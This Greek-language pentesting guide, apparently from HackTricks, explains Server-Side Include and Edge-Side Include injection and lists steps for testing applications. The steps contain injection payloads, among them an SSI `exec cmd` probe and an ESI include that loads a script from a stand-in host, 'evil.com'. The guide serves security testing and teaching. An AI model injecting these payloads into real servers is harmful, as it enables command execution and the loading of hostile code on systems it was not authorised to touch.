 # Εισαγωγή στην Ενσωμάτωση Εξυπηρετητή/Ενσωμάτωση Πλευράς Πελάτη

<details><summary><strong>Μάθετε το χάκινγκ του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

## Βασικές Πληροφορίες για την Ενσωμάτωση Εξυπηρετητή

**(Η εισαγωγή προέρχεται από τα [Apache docs](https://httpd.apache.org/docs/current/howto/ssi.html))**

Οι SSI (Server Side Includes) είναι οδηγίες που **τοποθετούνται σε σελίδες HTML και αξιολογούνται στον εξυπηρετητή** κατά την παροχή των σελίδων. Σας επιτρέπουν να **προσθέτετε δυναμικά δημιουργημένο περιεχόμενο** σε μια υπάρχουσα σελίδα HTML, χωρίς να χρειάζεται να παρέχετε ολόκληρη τη σελίδα μέσω ενός προγράμματος CGI ή άλλης δυναμικής τεχνολογίας.\
Για παράδειγμα, μπορείτε να τοποθετήσετε μια οδηγία σε μια υπάρχουσα σελίδα HTML, όπως:

`<!--#echo var="DATE_LOCAL" -->`

Και, όταν η σελίδα παρέχεται, αυτό το απόσπασμα θα αξιολογηθεί και θα αντικατασταθεί με την τιμή του:

`Τρίτη, 15-Ιαν-2013 19:28:54 EST`

Η απόφαση για το πότε να χρησιμοποιήσετε SSI και πότε να έχετε τη σελίδα σας πλήρως δημιουργημένη από κάποιο πρόγραμμα, είναι συνήθως θέμα του πόσο μεγάλο μέρος της σελίδας είναι στατικό και πόσο χρειάζεται να επανυπολογίζεται κάθε φορά που παρέχεται η σελίδα. Η SSI είναι ένας εξαιρετικός τρόπος για να προσθέσετε μικρά κομμάτια πληροφοριών, όπως η τρέχουσα ώρα - που φαίνεται παραπάνω. Αλλά εάν ένα μεγάλο μέρος της σελίδας σας δημιουργείται κατά την παροχή της, πρέπει να αναζητήσετε κάποια άλλη λύση.

Μπορείτε να συμπεράνετε την παρουσία της SSI εάν η web εφαρμογή χρησιμοποιεί αρχεία με τις επεκτάσεις \*\* `.shtml`, `.shtm` ή `.stm`\*\*, αλλά δεν είναι μόνο αυτή η περίπτωση.

Μια τυπική έκφραση SSI έχει την ακόλουθη μορφή:
```
<!--#directive param="value" -->
```
### Έλεγχος

Για να ελέγξετε αν μια εφαρμογή είναι ευάλωτη σε επίθεση Server-Side Inclusion (SSI) ή Edge-Side Inclusion (ESI) Injection, μπορείτε να ακολουθήσετε τα παρακάτω βήματα:

1. Ελέγξτε τον κώδικα της εφαρμογής για τυχόν αδυναμίες ασφαλείας που μπορεί να επιτρέπουν την εκτέλεση κακόβουλου κώδικα.
2. Αναζητήστε ενδείξεις ότι η εφαρμογή χρησιμοποιεί SSI ή ESI, όπως τα ακόλουθα στοιχεία:
   - Χρήση των διευθύνσεων URL που περιέχουν τον χαρακτήρα "#" ή τον χαρακτήρα "!".
   - Χρήση των εντολών SSI, όπως το `<!--#include virtual="file.txt" -->`.
   - Χρήση των εντολών ESI, όπως το `<esi:include src="file.txt" />`.
3. Εκτελέστε δοκιμές εισχώρησης για να ελέγξετε αν μπορείτε να εισχωρήσετε κακόβουλο κώδικα μέσω των εντολών SSI ή ESI. Χρησιμοποιήστε ειδικούς χαρακτήρες, όπως το `<!--#exec cmd="ls" -->` για SSI ή το `<esi:include src="http://evil.com/malicious.js" />` για ESI.
4. Ελέγξτε την απόκριση της εφαρμογής για να δείτε αν ο κακόβουλος κώδικας εκτελέστηκε με επιτυχία.
5. Αναφέρετε τυχόν ευπάθειες που ανακαλύψατε στους υπεύθυνους της εφαρμογής, ώστε να μπορέσουν να ληφθούν τα απαραίτητα μέτρα ασφαλείας.
